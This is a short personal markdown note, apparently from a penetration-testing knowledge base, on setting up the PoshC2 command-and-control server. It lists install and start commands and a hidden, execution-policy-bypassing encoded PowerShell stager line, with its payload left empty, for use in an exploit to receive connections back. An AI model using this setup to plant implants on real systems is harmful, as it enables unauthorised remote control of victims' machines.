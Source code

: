 ```yaml
---
creation date: November 8th 2023
last modified date: November 8th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[poshc2]]  
___

## Description:  

```
sudo apt install poshc2

edit config with (make sure IPs and ports are correct):
posh-config

Start server:
posh-server

Copy payload from posh-server output (use this in your exploit):
powershell -exec bypass -Noninteractive -windowstyle hidden -e ''

#or use one of the dropper exe files to use in your payload

Split your terminal horizontally and Watch for connections back:
posh -u <username>


```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: November 8th 2023 (11:54 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
